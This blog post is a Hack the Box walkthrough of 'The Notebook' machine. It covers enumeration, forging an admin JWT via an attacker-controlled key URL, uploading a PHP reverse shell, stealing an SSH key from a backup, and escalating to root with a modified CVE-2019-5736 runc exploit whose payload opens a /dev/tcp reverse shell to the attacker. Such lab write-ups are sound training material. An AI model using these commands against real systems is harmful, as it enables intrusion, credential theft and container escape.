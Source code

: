 +++
author = "Nick"
categories = ["hack the box", "medium", "enum4linux", "JWT", "burpsuite", "docker", "runc", "reverse shell", "CVE-2019-5736"]
date = 2021-07-31T15:00:00Z
description = ""
draft = false
thumbnail = "/images/2021/07/noetbook.png"
slug = "hack-the-box-the-notebook"
summary = "Welcome! Today's write-up is for the Hack the Box machine - The Notebook. This machine is listed as a medium difficulty Linux machine. It's pretty straight forward, so let's jump in"
tags = ["hack the box", "medium", "enum4linux", "JWT", "burpsuite", "docker", "runc", "reverse shell", "CVE-2019-5736"]
title = "Hack the Box - The Notebook"

+++


Welcome! Today's write-up is for the Hack the Box machine - The Notebook. This machine is listed as a medium difficulty Linux machine. It's pretty straight forward, so let's jump in.

As always, we start our enumeration with `nmap`. Here are our results:

```
Nmap scan report for 10.10.10.230
Host is up (0.053s latency).
Not shown: 65532 closed ports
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 86:df:10:fd:27:a3:fb:d8:36:a7:ed:90:95:33:f5:bf (RSA)
|   256 e7:81:d6:6c:df:ce:b7:30:03:91:5c:b5:13:42:06:44 (ECDSA)
|_  256 c6:06:34:c7:fc:00:c4:62:06:c2:36:0e:ee:5e:bf:6b (ED25519)
80/tcp    open     http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: The Notebook - Your Note Keeper
10010/tcp filtered rxapi
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Nothing too crazy, only one obscure port - 10010. So we'll see what's being hosted on port 80.

When we visit the site, we see a basic landing page. We have two options, `Register` and `login`. When we click the register link, we are brought to a page to do just that.

![](/images/2021/07/image.png)

The login page is simliar as well.

![](/images/2021/07/image-1.png)

We don't see anything in the source for the pages, so we'll start some enumeration with `ffuf`. 

Command:
`ffuf -u http://10.10.10.230/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt`

We get back limited results.

```
login                   [Status: 200, Size: 1250, Words: 173, Lines: 31]
register                [Status: 200, Size: 1422, Words: 193, Lines: 33]
admin                   [Status: 403, Size: 9, Words: 1, Lines: 1]
logout                  [Status: 302, Size: 209, Words: 22, Lines: 4]
```

Now we'll load up `Burpsuite` and start looking at what the site is doing. Once we have that loaded up, we create an account. We now have access to a new section called Notes. During the authentication processes, we see an authentication cookie get passed:

![](/images/2021/07/image-2.png)

We know it's as `JWT` token due to it's formatting.

![](/images/2021/07/image-5.png)

The yellow portion is the `Header`, the green portion is the `payload` and the blue is the verification signature. 

Now if we take this data, and drop it into [JWT.io](https://jwt.io) we can see the decoded data:

![](/images/2021/07/image-6.png)

What's good is that we can see that the `privKey` value on the local machine. So we're going to try and create our own `JWT` token with an `admin_cap` variable set to `true`. There are a few ways to do this, in my case, quickly generating the value via the CLI was how I did it.

Commands:
`echo '{"typ":"JWT","alg":"RS256","kid":"http://10.10.14.15:7070/privKey.key"}' | base64`
The above will create our `Header` value on the token.

`echo '{"username":"bobbillby","email":"bob@rootflag.io","admin_cap":true}' | base64`
This will create the `Payload` value on the token.

Now we have two sets of token values, we need to create a key to match our signature portion.

Command:
`ssh-keygen -t rsa -b 4096 -m PEM -f privKey.key`

Then we can host that key on our local machine on the same ports:

Command:
`python -m SimpleHTTPServer 7070`

Now we can take our generated outputs from above, and paste them into JWT.io to get our proper admin cookie.

![](/images/2021/07/image-7.png)

Now armed with this value, we need to modify our current cookie session value. Simply open up our `Developer tools` and head over to the Storage tab. Here we can see the values of the cookies for this site:

![](/images/2021/07/image-8.png)

Let's add our new JWT token and refresh. We should now see an `Admin Panel` section in our header!

![](/images/2021/07/image-9.png)

In this section, we see that we can view notes and upload a file. This is probably where we're going to upload our reverse shell!

![](/images/2021/07/image-10.png)

I tend to always use [Pentest Monkey](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) shell. So, now we just upload it.

![](/images/2021/07/image-11.png)

Make sure you have a listener running before we view the file on the port you specified, otherwise you'll miss the connection.

![](/images/2021/07/image-12.png)

We then catch our shell! Awesome, a foothold. Now we need to start enumerating internally. We'll copy over `linpeas.sh` and see what we can find.

![](/images/2021/07/image-13.png)

We see an interesting entry in our `backups` location - `home.tar.gz`. So we'll view the contents of this file.

Command:
`tar -tvf home.tar.gz`

![](/images/2021/07/image-14.png)

We see an `.ssh` directory. So we're going to want to extract the files and copy the key to our local machine to see if it works.

Command:
`tar -xvf home.tar.gz -C /tmp/temp` <= We created this directory, you don't need to. You can use whatever path you want.

Now we can navigate to the .ssh key and snag our key.

![](/images/2021/07/image-15.png)

We can copy this over by whatever means you like. Then we try to `SSH` into the target as Noah using this key.

Commands:
`chmod 0400 noah-key`
`ssh -i noah-key noah@10.10.10.230`

Once we get in, we snag our `user.txt` flag!

![](/images/2021/07/image-16.png)

Now we're in as a user, we can enumerate a bit further with more priviledges. I always run `sudo -l` once I get onto a box, it usually has a good path forward.

![](/images/2021/07/image-17.png)

Since `linpeas.sh` is still on the machine, we'll re-run that to start. Shortly into the run, we find that `runc` is on the machine.

![](/images/2021/07/image-18.png)

Some googling around leads us to CVE-2019-5736. [Here's a run down](https://unit42.paloaltonetworks.com/breaking-docker-via-runc-explaining-cve-2019-5736/) of the CVE. It's not too hard to find a PoC for this CVE, we have [one here](https://github.com/Frichetten/CVE-2019-5736-PoC). We do meet the requirements for this PoC, we have root access to a container. 

First let's clone the repo down to our machine.

Command:
`git clone https://github.com/Frichetten/CVE-2019-5736-PoC`

Now we need to modify the `main.go` file in order to modify the payload. We're going to give the payload a shell back to us:

`#!/bin/bash \n bash -i >& /dev/tcp/10.10.14.15/6969 0>&1`

Now we can rebuild the application.

Command:
`go build main.go`

Now we can host a file server in this location.

Command:
`python3 -m SimpleHTTPServer 80`

We now want to gain a shell into our `Docker` container.

Command:
`sudo /usr/bin/docker exec -it webapp-dev01 sh`

Now we'll download our compiled exploit.

Command:
`wget 10.10.14.15/main`

Now make it executable.

Command:
`chmod +x main`

Now we run the exloit.

Command:
`./main`

![](/images/2021/07/image-19.png)

Now to trigger this fully, we need to run another docker command, same as above.

Command:
`sudo /usr/bin/docker exec -it webapp-dev01 sh`

Once we run that, we should see our listener light up!

![](/images/2021/07/image-20.png)

There we have it, root access!

Another box down, semi-realistic as well. If you found the write-up useful, send some respect my way!

HTB Profile - https://app.hackthebox.eu/profile/95635



